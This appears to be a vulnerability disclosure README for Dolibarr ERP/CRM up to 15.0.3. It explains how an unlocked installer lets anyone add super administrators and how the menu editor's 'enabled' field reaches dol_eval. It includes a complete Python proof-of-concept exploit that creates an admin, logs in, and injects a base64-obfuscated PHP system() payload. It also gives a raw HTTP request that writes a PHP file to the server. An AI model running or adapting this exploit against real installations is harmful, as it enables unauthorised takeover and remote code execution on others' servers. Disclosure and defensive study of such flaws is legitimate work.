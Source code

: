 ## 2022/10/08 update

POC:

```python
import requests
from requests.packages import urllib3
import time
import random
import sys
import re


sess = requests.Session()
pcre = re.compile(r'name=\"token\"\s+value=\"([^>]+)\"\s*[/]*>')
def request(method, url, headers=None, data=None, proxies=None, timeout=30):
    i = 1
    urllib3.disable_warnings()
    resp = None
    proxies = proxies
    while i <= 3:
        try:
            resp = sess.request(method=method, url=url, headers=headers,
                                    data=data, proxies=proxies, timeout=timeout, verify=False)
            break
        except requests.exceptions.TooManyRedirects:
            break
        except requests.exceptions.ConnectionError as e:
            time.sleep(2 + random.randint(1, 4))
        except (requests.exceptions.ConnectTimeout, requests.exceptions.ReadTimeout, requests.exceptions.Timeout):
            time.sleep(2 + random.randint(1, 4))
        finally:
            i += 1
    if i > 3:
        print('[-]Error retrieve with max retries: {}'.format(url))
    return resp

def exp():
    if len(sys.argv) < 2:
        sys.exit('Usage: python3 {} http://xxxxx.com/'.format(sys.argv[0]))
    if sys.argv[1][-1] == '/':
        base = sys.argv[1].rsplit('/', 1)[0]
    else:
        base = sys.argv[1]
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36',
    }
    #proxies = {'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
    proxies = None
    res = request('GET', base, headers=headers, proxies=proxies)
    err_flag = 1
    if res:
        print('[*] Attempt to add admin.')
        base = res.url.rsplit('/', 1)[0]
        add_admin_url = '{}/install/step5.php'.format(base)
        data = {
            'action': 'set',
            'login': 'testadmins',
            'pass': 'testadmins',
            'pass_verif': 'testadmins',
            'selectlang': 'auto'
        }
        headers['Content-Type'] = 'application/x-www-form-urlencoded'
        res = request('POST', add_admin_url, headers=headers, data=data, proxies=proxies)
        if res and 'created successfully' in res.text or ('exists' in res.text and 'Email  already exists' not in res.text):
            csrf_token_url = '{}/index.php'.format(base)
            res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
            if res:
                print('[*] Attempt to login.')
                try:
                    csrf_token = pcre.findall(res.text)[0]
                except:
                    csrf_token = ''
                login_url = '{}/index.php?mainmenu=home'.format(base)
                headers['Referer'] = csrf_token_url
                data = {
                    'token':'{}'.format(csrf_token),
                    'actionlogin': 'login',
                    'loginfunction': 'loginfunction',
                    'username': 'testadmins',
                    'password': 'testadmins'
                }
                res = request('POST', login_url, headers=headers, data=data, proxies=proxies)
                if res and res.status_code == 200 and 'logout.php' in res.text:
                    print('[*] Attempt to get csrf token.')
                    csrf_token_url = '{}/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy_menu'.format(base)
                    res = request('GET', csrf_token_url, headers=headers, proxies=proxies)
                    if res:
                        print('[*] Attemp to inset evil data.')
                        try:
                            csrf_token = pcre.findall(res.text)[0]
                        except:
                            csrf_token = ''
                        inset_evil_url = '{}/admin/menus/edit.php'.format(base)
                        data = {
                            'token': '{}'.format(csrf_token),
                            'action': 'add',
                            'menuId': random.randint(10000, 99999),
                            'menu_handler': 'eldy_menu',
                            'user': 2,
                            'type': 1,
                            'titre': 1,
                            'url': 1,
                            'enabled': "1==1));$d=base64_decode('ZWNobyAnPCEtLScmJmVjaG8gcHduZWQhISEmJmlkJiZlY2hvJy0tPic=');$a=base64_decode('c3lzdGVt');$a($d);//" #execute id command，bypass core/lib/function.lib.php limits
                        }
                        res = request('POST', inset_evil_url, headers=headers, data=data, proxies=proxies)
                        if res and res.history[0].status_code == 302:
                            print('[*] Attemp to execute command.')
                            request('GET', '{}/admin/menus/index.php'.format(base), headers=headers, proxies=proxies)
                            time.sleep(3)
                            evil_url = '{}/admin/index.php'.format(base)
                            res = request('GET', evil_url, headers=headers, proxies=proxies)
                            if res and res.status_code == 200 and 'pwned!!!' in res.text:
                                print(res.text[:100])
                                print('[+] vulnrable! {}'.format(base))
                                err_flag = 0
                    
    if err_flag:
        print('[-] {} is not exploitable.'.format(sys.argv[1]))

exp()
```

<img src="README.assets/image-20221008160455052.png" alt="image-20221008160455052" style="zoom:50%;" />

## 1. Introduction

Dolibarr ERP & CRM is a modern software package that  helps manage your organization's activity (contacts, suppliers,  invoices, orders, stocks, agenda…).

It's an Open Source Software suite (written in PHP with  optional JavaScript enhancements) designed for small, medium or large  companies, foundations and freelancers.

dolibarr<=15.0.3 has an arbitrary add administrator vulnerability and a backend remote code execution vulnerability.



## 2. Vulnerability

### 2.1 add super administrators without authorization

Dolibarr does not automatically add `install.lock` after installation, it needs to be added manually by the user in the `documents` directory. For this feature, you can add as many super administrators as you want, using the section for adding super administrators during installation: `install/step4.php`.

<img src="README.assets/image-20220914174023102.png" alt="image-20220914174023102" style="zoom:50%;" />

<img src="README.assets/image-20220914174040017.png" alt="image-20220914174040017" style="zoom:50%;" />

### 2.2 Backend RCE

Firstly, use the edit function of menus to add malicious data to the database, here we use `file_put_contents` to write files.

```
POST /dolibarr1502/htdocs/admin/menus/edit.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 299
Origin: http://localhost
Connection: close
Referer: http://localhost/dolibarr/htdocs/admin/menus/edit.php?menuId=0&action=create&menu_handler=eldy&backtopage=%2Fdolibarr%2Fhtdocs%2Fadmin%2Fmenus%2Findex.php
Cookie: PHPSESSID=mtkbsit3sr99f9relns8b9isbf; DOLINSTALLNOPING_017fb6a80b4fcc706353a7f3b168d939=1; DOLSESSID_90637d005b446cd27f1f5444eb5ac092=2m4fegod13gk193u8g7js4nql5
Upgrade-Insecure-Requests: 1

token=5de221f6658ef66579740ae1636d24a6&action=add&menuId=12345671&menu_handler=eldy_menu&user=2&type=1&titre=1&url=1&enabled=1%3D%3D1%29%29%3B%24a%3Dbase64_decode%28%27ZmlsZV9wdXRfY29udGVudHM%3D%27%29%3B%24a%28%27.1234.php%27%2Cbase64_decode%28%27PD9waHAgcGhwaW5mbygpOz8%2BCg%3D%3D%27%29%29%3B%2F%2F
```

<img src="README.assets/image-20220914174400298.png" alt="image-20220914174400298" style="zoom:50%;" />

View the database table `llx_menu` and successfully add malicious data:

<img src="README.assets/image-20220914203120654.png" alt="image-20220914203120654" style="zoom:50%;" />

Secondly, access to `http://localhost/dolibarr1502/htdocs/admin/menus/index.php`, will generate malicious PHP files in the `admin/menus/` directory.

<img src="README.assets/image-20220914174643514.png" alt="image-20220914174643514" style="zoom:50%;" />



## 3. Analysis

The `dol_eval` function in `htdocs/core/lib/functions.lib.php` can execute arbitrary code, the dol_eval caller also in the `verifCond` function in this file. If you can control `$s` and bypass the forbidden restriction (bypass with php features: **variable functions**), you can execute arbitrary code.

<img src="README.assets/image-20220914175138526.png" alt="image-20220914175138526" style="zoom:50%;" />

<img src="README.assets/image-20220914175239958.png" alt="image-20220914175239958" style="zoom:50%;" />

Looking for controllable calls to the `verifCond` function, I found the `menuLoad` method in `htdocs/core/class/menubase.class.php`. The `menuLoad` method has two calls to `verifCond`.

<img src="README.assets/image-20220914200508401.png" alt="image-20220914200508401" style="zoom:50%;" />

But `$memu` is fetched from the database, so go ahead and look at the logic of the `$resql` statement. Focus on the table: `MAIN_DB_PREFIX.menu`, and `m.entity` in `(0, $conf->entity)`, `m.menu_handler IN ($this->db->escape($menu_handler),'all')"`. And `$menu_handler` is the parameter passed in. The condition to be satisfied is: `eldy`

![image-20220914200914426](README.assets/image-20220914200914426.png)

```php
$sql = "SELECT m.rowid, m.type, m.module, m.fk_menu, m.fk_mainmenu, m.fk_leftmenu, m.url, m.titre, m.langs, m.perms, m.enabled, m.target, m.mainmenu, m.leftmenu, m.position";
$sql .= " FROM ".MAIN_DB_PREFIX."menu as m";
$sql .= " WHERE m.entity IN (0,".$conf->entity.")";
$sql .= " AND m.menu_handler IN ('".$this->db->escape($menu_handler)."','all')";
if ($type_user == 0) $sql .= " AND m.usertype IN (0,2)";
if ($type_user == 1) $sql .= " AND m.usertype IN (1,2)";
$sql .= " ORDER BY m.position, m.rowid";
```

So, we need to find the code to insert or modify the table `MAIN_DB_PREFIX.menu`.

<img src="README.assets/image-20220914201200047.png" alt="image-20220914201200047" style="zoom:50%;" />

The `create` function, also located in `htdocs/core/class/menubase.class.php`, is used to add a piece of data to `MAIN_DB_PREFIX.menu`, focusing on `perms`, `enabled`, `entity`, and `menu_handler`. handler`, where `entity` is `$conf->entity` which just meets the conditions described above.

<img src="README.assets/image-20220914201651973.png" alt="image-20220914201651973" style="zoom:50%;" />

Keep track of the remaining three variables, located in `htdocs/admin/menus/edit.php`, all of which we can control.

<img src="README.assets/image-20220914201706559.png" alt="image-20220914201706559" style="zoom:50%;" />

